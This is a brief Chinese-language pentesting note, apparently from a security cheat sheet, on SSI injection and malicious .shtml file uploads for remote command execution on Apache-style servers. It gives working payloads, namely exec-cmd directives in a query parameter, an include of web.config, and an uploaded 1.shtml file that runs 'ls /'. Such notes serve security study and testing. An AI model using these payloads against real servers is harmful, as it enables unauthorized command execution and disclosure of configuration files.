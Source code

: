 

shtml是一种特殊的html。需要运行在支持SSI的服务器，如apache。简单来说就是能根据命令动态回显网页的某个部分，比如时间。
可以注入，用来远程命令执行。 格式：  
```
?username=<!--#exec cmd="命令"-->

?username=<!--#exec cmd="ls"-->

ssi:<--#include file="..\..\web.config" -->
```

^
## **shtml文件上传**
又被称为Apache2 SSI 命令执行
在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用<!--#exec cmd="id" -->语法执行任意命令。

文件名：1.shtml
文件内容
```
<!--#exec cmd="ls /" -->
```